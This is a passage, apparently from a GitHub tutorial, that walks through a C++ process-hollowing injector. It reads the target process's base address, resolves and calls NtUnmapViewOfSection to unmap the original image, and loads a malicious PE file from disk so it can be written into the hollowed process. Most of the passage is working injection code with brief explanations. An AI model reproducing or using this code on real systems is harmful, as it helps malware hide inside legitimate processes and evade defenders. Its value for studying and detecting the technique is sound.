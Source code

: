 ```cpp
#endif

#ifdef _WIN64
	ReadProcessMemory(procInfo.hProcess, (PVOID)(threadContext->Rdx + (sizeof(SIZE_T) * 2)), &baseAddress, sizeof(PVOID), NULL);
#endif

```
The `NtUnmapViewOfSection` function, retrieved from ntdll.dll, is used to unmap the memory section of the target process. This frees the memory space where the original executable was loaded, so the malicious code can be written there instead.
```cpp
  // Getting The Address Of NtUnmapViewOfSection And Unmapping All Sections
	printf("[+] Unmapping the Memory Section of Target Process.\n");
	HMODULE ntdllHandle = GetModuleHandleA("ntdll");
	FARPROC ntUnmapViewOfSectionProc = GetProcAddress(ntdllHandle, "NtUnmapViewOfSection");
	_NtUnmapViewOfSectionFunc ntUnmapViewOfSection = (_NtUnmapViewOfSectionFunc)ntUnmapViewOfSectionProc;
	if (ntUnmapViewOfSection(procInfo.hProcess, baseAddress)) {
		printf("[-] Error to unmap the Section\n");
		return 0;
	}

```
This code opens the malicious PE file provided as an argument, reads its contents into memory.
```cpp
// Open PE file and read it into memory
	HANDLE hFile = CreateFileA(argv[1], GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
	if (hFile == INVALID_HANDLE_VALUE) {
		std::cerr << "Failed to open PE file." << std::endl;
		return 1;
	}
	// Get the file size
	DWORD fileSize = GetFileSize(hFile, NULL);
	if (fileSize == INVALID_FILE_SIZE) {
		std::cerr << "Failed to get file size" << std::endl;
		CloseHandle(hFile);
		return 1;
	}

	// Allocate buffer
	char* PEBytes = (char*)malloc(fileSize);
	if (PEBytes == nullptr) {
		std::cerr << "Failed to allocate memory" << std::endl;
		CloseHandle(hFile);
		return 1;
	}

	// Read the file into memory
	DWORD bytesRead;
	if (!ReadFile(hFile, PEBytes, fileSize, &bytesRead, NULL) || bytesRead != fileSize) {
		std::cerr << "Failed to read file into memory" << std::endl;
		free(PEBytes);
		CloseHandle(hFile);
		return 1;
	}

	CloseHandle(hFile);
```
The code parses the headers of the PE file (specifically, the DOS header and NT header). The DOS header points to the NT headers using the `e_lfanew` field. These headers contain crucial information like the image base address and section details. Also allocated memory is the same size as the PE file’s `SizeOfImage`.